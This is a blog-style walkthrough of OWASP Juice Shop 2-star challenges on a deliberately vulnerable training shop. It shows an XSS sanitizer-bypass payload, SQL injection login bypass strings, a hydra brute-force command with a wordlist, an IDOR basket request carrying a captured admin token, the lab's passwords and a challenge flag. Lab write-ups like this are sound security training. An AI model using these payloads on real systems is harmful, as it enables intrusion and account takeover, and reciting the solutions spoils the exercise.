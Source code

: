 ```yaml
---
layout: post
title: OWASP Juice Shop v9.3.1 - 2 Star Solutions
---
```


## Admin Section
### Access the administration section of the store.
Navigate to http://10.10.50.111/#/administration
Admin can see list of registered users, non-logged in cannot.
#### Emails
|email|
|---|
|admin@juice-sh.op
|jim@juice-sh.op
|bender@juice-sh.op
|bjoern.kimminich@googlemail.com
|ciso@juice-sh.op
|support@juice-sh.op
|morty@juice-sh.op
|mc.safesearch@juice-sh.op
|J12934@juice-sh.op
|wurstbrot@juice-sh.op
|amy@juice-sh.op
|bjoern@juice-sh.op
|bjoern.kimminich@owasp.org

#### Recycling Requests
|User|Quantity|Address|Pickup Date|
|---|---|---|---|
|2|800|Starfleet HQ, 24-593 Federation Drive, San Francisco, CA |2270-01-17T00:00:00.000Z

## Classic Stored XSS
### Perform an XSS attack with ```<script>alert(`xss`)</script>``` on a legacy page within the application.

In the Architecture overview, we are told Angular is used to create a so-called *Single Page Application*. But, the profile page looks subtly odd and dated compared with the other screens. You can update an account's username with a field, which is susceptible to XSS.

Entering ```<script>alert(`xss`)</script>```, our username gets set to ```\lert(`xss`)```. There is a custom RegEx sanitation behind the scenes. Through lots of incremental changes, we eventually arrive at an input which passes the sanitation: ```<<script><sscript>alert(`xss`)</script>```.

![XSS stored in username](/images/juice/profile_xss.png)

## Deprecated Interface
### Use a deprecated B2B interface that was not properly shut down.

As has been mentioned in a few places, only pdfs are accepted in the complaint form. If we take a look, the file input accepts .pdf and .zip (expecting a zip of multiple pdfs).

![supported](/images/juice/supported.png)

When we look closer at the input element:

![deprecated](/images/juice/deprecated.png)

```
aria-label="Input area for uploading a single invoice PDF or XML B2B order file or a ZIP archive containing multiple invoices or orders<!---->"
```

it looks like it used to accept XML. So, I created a test file with ```touch test.xml``` and uploaded it which triggered the success state.

## Five-Star Feedback
### Get rid of all 5-star customer feedback.

On the ```/#/administration``` page, delete all the 5-star reviews.

![feedback](/images/juice/feedback.png)


### Login Admin
#### Log in with the administrator's user account.
Use SQL Injection ```' OR 1=1;--``` in email field, and any password. We can even be more explicit with ```' or 1=1 and email like('%admin%');--```.

![inject](/images/juice/sql_injection.png)


## Login MC SafeSearch
### Log in with MC SafeSearch's original user credentials without applying SQL Injection or any other bypass.
Googling MC SafeSearch we find this College Humor [video](https://www.youtube.com/watch?v=v59CX2DiX0Y).

In the song, MC SafeSearch says his password is the name of his dog Mr. Noodles, but was tricky and replaced some of the vowels with zeroes.

Email: mc.safesearch@juice-sh.op
Password: Mr. N00dles


## Password Strength
### Log in with the administrator's user credentials without previously changing them or applying SQL Injection.

If we look at the requests being made in the network tab when we navigate to ```/#/administration```, we see some interesting redacted information.

![auth_details](/images/juice/auth_details.png)

If only we could read passwords! Oh well, perhaps brute-force is in order. After the Login Admin challenge, we know the admin's email is admin@juice-sh.op. Let's go to the login form, intercept a login request, and use Burp to go through a wordlist.

Original request:

![log_req](/images/juice/log_req.png)

Send to Intruder in Burp with ```Ctrl-I```.

![attack](/images/juice/attack.png)

Get rid of the ```§```s that we don't need in the Payload Positions tab; we are only attacking the password.

```
{"email":"admin@juice-sh.op","password":"§password§"}
```

Since I have Burp Community Edition, it will take a long time for the password to be cracked. In the meantime I wrote a hydra command to do the same, faster.

```shell
$ hydra -l admin@juice-sh.op -P /usr/share/wordlists/rockyou.txt 127.0.0.1 http-post-form '/#/login:email=^USER^&password=^PASS^:Invalid email or password.' -fV -s 3000 -t 1
```

The password is ```admin123```.

## Security Policy
### Behave like any "white-hat" should before getting into the action.

[security.txt](https://securitytxt.org/) is a proposed standard which allows websites to define security policies. The file is recommended to be placed inside the .well-known directory.

```shell
$ curl localhost:3000/.well-known/security.txt
Contact: mailto:donotreply@owasp-juice.shop
Encryption: https://keybase.io/bkimminich/pgp_keys.asc?fingerprint=19c01cb7157e4645e9e2c863062a85a8cbfbdcda
Acknowledgements: /#/score-board
```

## View Basket
### View another user's shopping basket.
Using FoxyProxy and Burp Suite, intercept a packet of a logged in user going to their basket. We use admin here, and from the administration page we know admin has ```1``` as their user id. We can see in the following request, that baskets are stored by user id (e.g. ```GET /rest/basket/1```).
```HTTP
GET /rest/basket/1 HTTP/1.1
Host: localhost:3000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:73.0) Gecko/20100101 Firefox/73.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: Bearer eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdGF0dXMiOiJzdWNjZXNzIiwiZGF0YSI6eyJpZCI6MSwidXNlcm5hbWUiOiIiLCJlbWFpbCI6ImFkbWluQGp1aWNlLXNoLm9wIiwicGFzc3dvcmQiOiIwMTkyMDIzYTdiYmQ3MzI1MDUxNmYwNjlkZjE4YjUwMCIsInJvbGUiOiJhZG1pbiIsImxhc3RMb2dpbklwIjoiMC4wLjAuMCIsInByb2ZpbGVJbWFnZSI6ImRlZmF1bHQuc3ZnIiwidG90cFNlY3JldCI6IiIsImlzQWN0aXZlIjp0cnVlLCJjcmVhdGVkQXQiOiIyMDIwLTAzLTExIDAwOjUxOjE0LjM4OSArMDA6MDAiLCJ1cGRhdGVkQXQiOiIyMDIwLTAzLTExIDAwOjUxOjE0LjM4OSArMDA6MDAiLCJkZWxldGVkQXQiOm51bGx9LCJpYXQiOjE1ODM4OTY0NzYsImV4cCI6MTU4MzkxNDQ3Nn0.U--ZH-AwBaigQeJRIL08JFTpWKN__InJB25NBjGvMreIz-U4kjvtBbrPW9lZHR5eM21k3_UJD8VvA0-5detIoDD8-eDOqBqtVoTThexDOYEE5GBOmemIh4GFQSjrbD-O6dzJwubmF85iw9COLjAu3UmCPOi_v5fwZt85Wo5Og4A
DNT: 1
Connection: close
Referer: http://localhost:3000/
Cookie: io=JAxjrx9sxN2PvPa7AAAE; language=en; welcomebanner_status=dismiss; cookieconsent_status=dismiss; continueCode=bKZ8yYJg36bORLxl5zMNanDAo9TjiyOUzYH18GPXj2mErq7VeQpokW9v14Bw; token=eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdGF0dXMiOiJzdWNjZXNzIiwiZGF0YSI6eyJpZCI6MSwidXNlcm5hbWUiOiIiLCJlbWFpbCI6ImFkbWluQGp1aWNlLXNoLm9wIiwicGFzc3dvcmQiOiIwMTkyMDIzYTdiYmQ3MzI1MDUxNmYwNjlkZjE4YjUwMCIsInJvbGUiOiJhZG1pbiIsImxhc3RMb2dpbklwIjoiMC4wLjAuMCIsInByb2ZpbGVJbWFnZSI6ImRlZmF1bHQuc3ZnIiwidG90cFNlY3JldCI6IiIsImlzQWN0aXZlIjp0cnVlLCJjcmVhdGVkQXQiOiIyMDIwLTAzLTExIDAwOjUxOjE0LjM4OSArMDA6MDAiLCJ1cGRhdGVkQXQiOiIyMDIwLTAzLTExIDAwOjUxOjE0LjM4OSArMDA6MDAiLCJkZWxldGVkQXQiOm51bGx9LCJpYXQiOjE1ODM4OTY0NzYsImV4cCI6MTU4MzkxNDQ3Nn0.U--ZH-AwBaigQeJRIL08JFTpWKN__InJB25NBjGvMreIz-U4kjvtBbrPW9lZHR5eM21k3_UJD8VvA0-5detIoDD8-eDOqBqtVoTThexDOYEE5GBOmemIh4GFQSjrbD-O6dzJwubmF85iw9COLjAu3UmCPOi_v5fwZt85Wo5Og4A
If-None-Match: W/"51e-g+L4GWuN4lWam4EZuNC1rOU8MLg"
```
To solve this challenge, simply alter ```1``` to be any other valid user id. If you are still capturing, you'll get your receipt.
```HTTP
42["challenge solved",{"key":"basketAccessChallenge","name":"View Basket","challenge":"View Basket (View another user's shopping basket.)","flag":"e6982b34b6734ceadd28e5019b251f929a80b815","hidden":false}]
```

## Weird Crypto
### Inform the shop about an algorithm or library it should definitely not use the way it does.

Mention MD5 in the comment of Customer Feedback, and the challenge is solved.